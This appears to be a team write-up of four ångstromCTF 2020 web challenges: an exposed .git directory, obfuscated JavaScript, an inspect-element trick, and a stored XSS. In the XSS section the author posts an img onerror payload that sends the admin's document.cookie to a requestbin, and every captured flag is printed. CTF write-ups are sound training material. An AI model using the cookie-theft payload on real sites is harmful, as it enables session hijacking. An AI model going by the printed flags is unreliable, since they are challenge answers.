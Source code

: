 # angstromCTF 2020
### This is our writeups for ångstromCTF 2020.
![angstrom-3e0d6c871da7786e59fcc988735f4f5ded75aab5fac89f538291b3ef033801eb](https://user-images.githubusercontent.com/36403473/77215806-d4b45380-6b1e-11ea-8853-b9539e6bc4d0.png)

i participated in ångstromCTF 2020 with my awesome team P1rates as python_4004 & my dude mokey  . This is our writeups about some challenges we solved during the competition.

# Web challenges 
## Git Good
 Noting the name of the challenge, I think the system is based on git mangement system 
 But I have to make sure first , so i will use dirb tool
![dirb](https://user-images.githubusercontent.com/36403473/77215204-85205880-6b1b-11ea-9ca2-a46a3b8c8347.png)

now lets try to download git files 
to do that open your terminal and write 
git clone +the link of the challenge 
##### <code> <b> git clone https://gitgood.2020.chall.actf.co/.git </b> </code> 
![Screenshot from 2020-03-21 02-37-29](https://user-images.githubusercontent.com/36403473/77215565-5f944e80-6b1d-11ea-9f41-b7f8d0feba48.png)
The first thing I thought about was looking at the log file
##### <code> <b>git log -p</b> </code>
![Screenshot from 2020-03-21 02-41-08](https://user-images.githubusercontent.com/36403473/77215657-037dfa00-6b1e-11ea-8edf-e4d6b2588f11.png)
yup i found the flag 
##### actf{b3_car3ful_wh4t_y0u_s3rve_wi7h}
## Consolation

by clicking on <b> pay my some money </b> it call <b> nofret() </b> function so let's see  source code  
![Screenshot from 2020-03-21 03-36-56](https://user-images.githubusercontent.com/36403473/77216945-2f51ad80-6b27-11ea-8634-b35ee7b33fe3.png)

okey i found that javascript is obfuscated.
so we need to revesre this code ,i use this online platform to decode our obfuscated js file <b> http://www.jsnice.org/ </b>

![Screenshot from 2020-03-21 03-46-10](https://user-images.githubusercontent.com/36403473/77216996-86578280-6b27-11ea-808b-fe5a8a3fb972.png)

looking very well i found ohh lets delete this line and put thit function on console <b>console ["clear"] ();</b>

![Screenshot from 2020-03-21 04-02-07](https://user-images.githubusercontent.com/36403473/77217187-2feb4380-6b29-11ea-9442-0a00b9398630.png)

yup i found it 
<b> actf{you_would_n0t_beli3ve_your_eyes} <b/>

##The Magic Word

it was very easy challenge what you should do only open <b>inspect</b>  and Change <b> "give flag" </b> to <b> "please give flag" </b>
![Screenshot from 2020-03-21 04-07-53](https://user-images.githubusercontent.com/36403473/77217291-fff07000-6b29-11ea-8a41-ac63fdd4ef62.png)
our flag is <b> actf{1nsp3c7_3l3m3nt_is_y0ur_b3st_fri3nd} </b>

## Xmas Still Stands

This was an easy <b> xss stored </b>  challenge given the following:
 
first i post this post <img src=x onerror='requestbin?cookie='+document.cookie>
i use requestbin to get admin cookies 
![Screenshot from 2020-03-21 04-26-16](https://user-images.githubusercontent.com/36403473/77217832-1e586a80-6b2e-11ea-9c2c-020f7d1e9376.png)

i reported my post to admin , checking my requestbin i found the flag 

![9d2b4cb0-d98d-4053-a165-341fc82d376d](https://user-images.githubusercontent.com/36403473/77217880-9faffd00-6b2e-11ea-8e50-b45a691fbb00.jpeg)

yup the flag is <b> actf{s4n1tize_y0ur_html_4nd_y0ur_h4nds} </b>
